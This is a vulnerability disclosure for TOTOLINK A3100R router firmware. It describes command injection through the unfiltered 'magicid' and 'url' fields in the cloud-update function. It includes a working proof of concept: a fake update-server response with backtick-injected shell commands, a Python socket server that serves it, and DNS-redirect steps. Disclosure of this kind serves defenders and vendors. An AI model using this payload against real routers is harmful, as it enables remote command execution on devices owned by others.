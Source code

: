 #Command Injection

##A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129


##Description:
We have found an issue with function uci_cloudupdate_config in  module cloudupdate_check , parameter "magicid"  and "url" can couse command injection.Hacker can use this  by Man-in-the-middle attack.

##Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

##Analyse：
In function uci_cloudupdate_config as we can  see，there is  no filter with magicid and url，after snprintf it was passed to system. If we pass magicid with `ls`,the command 'ls' will be executed and the result will be written to /tmp/ActionMd5.
![](./img/3.png) 

function trace back：
uci_cloudupdate_config<-parse_upgserver_info<-connect_cloud<-cloudupdate_check

before cloudupdate_check thre is  a init_host_config function call:
![](./img/4.png) 

we can find the server name in this function
![](./img/5.png) 






##reproduct:
1、make a fake sever with  follow response
```
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}
```
you can use payload like follows
```
import socket

sSock=socket.socket()
sSock.bind(('192.168.0.109',80))
sSock.listen(1000)

cSock,addr=sSock.accept()

if(True):
    str1=cSock.recv(1024)
    print("client:"+str1.decode('utf-8'))

    #str2=input('>>>')

    str2='''HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}'''
    cSock.send(str2.encode())

cSock.close()
```

2、make dnsreslove update.carystudio.com to your fake server

3、reboot the router

4、check /tmp/ActionMd5 and /tmp/DlFileUrl
then we have successfully run command ‘ls’ and ‘ls -la’
![](./img/1.png)

